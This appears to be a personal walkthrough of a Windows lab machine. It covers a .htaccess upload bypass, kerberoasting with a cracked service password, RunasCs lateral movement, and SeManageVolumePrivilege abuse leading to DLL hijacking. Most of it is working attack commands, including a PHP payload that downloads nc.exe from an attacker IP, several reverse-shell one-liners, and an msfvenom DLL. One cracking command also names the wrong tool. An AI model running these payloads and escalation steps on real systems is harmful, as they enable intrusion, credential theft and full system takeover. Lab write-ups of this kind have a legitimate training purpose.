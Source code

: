 ## Takeaway
- With file upload, see if you can upload `.htaccess` file, to add a new extension to bypass extension check completely.
	- `echo 'AddHandler application/x-httpd-php .hacker' > .htaccess`
## Metadata
- Port `80` is running a web application that allows file upload at the `Purchase Ticket` Section and uploaded files can be found at `http://192.168.163.187/uploads/`.![[Pasted image 20240320180610.png]]
	-   However, the upload does not allow any `php` extension but allow `.htaccess`. 
- Running `Rubeus` will identify `access\svc_mssql` as kerberoastable.![[Pasted image 20240321131651.png]]
	- Run `hashid -m 13100 svc_mssql.hash /usr/share/wordlists/rockyou.txt --force` to retrieve credential pair as `access\svc_mssql:trustno1`.![[Pasted image 20240321132002.png]]
- `svc_mssql` has privilege `SeManageVolumePrivilege` which grants `privileged write` to whole `C:\` hence give a path to system.![[Pasted image 20240321134416.png]]
	- https://github.com/CsEnox/SeManageVolumeExploit
# Exploitation
## Shell as svc_apache
- Run `echo 'AddHandler application/x-httpd-php .hacker' > .htaccess` to prepare for `.htaccess` file.
- Prepare a payload called `rev.hacker` with following contents:
```php
<?php system('powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.189/Windows/nc.exe -UseBasicParsing -outfile nc.exe); .\nc.exe 192.168.45.189 443 -e cmd.exe'); ?>
```
- Upload both files using `Purchase Ticket` functionality.
- Set up listener and navigate to `http://192.168.163.187/uploads/rev.hacker` to receive a reverse shell call back.
## Shell as svc_mssql
- Run the following command to get a shell as `svc_mssql`:
```shell
curl http://192.168.45.189/Windows/Invoke-RunasCs.ps1 -outfile Invoke-RunasCs.ps1

Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser -Force

. .\Invoke-RunasCs.ps1

Invoke-RunasCs svc_mssql trustno1 "nc.exe 192.168.45.189 443 -e cmd.exe"
```
 # PrivEsc
 - Within the shell of `svc_mssql`: 
	 - Upload exploit with `curl http://192.168.45.189/Windows/Privs/SeManageVolumeExploit.exe -O` and run `.\SeManageVolumeExploit.exe` to abuse `SeManageVolumePrivilege` and grant write privilege to all `C:\`.
	 - Generate malicious `dll` with `msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.189 lport=443 -f dll -o Printconfig.dll`.
	 - Upload onto `C:\Windows\System32\spool\drivers\x64\3` with `curl http://192.168.45.189:1234/Printconfig.dll -O`.
	 - Spawn a PowerShell session and run following code to receive a reverse shell call back:
		```shell
		$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
		```
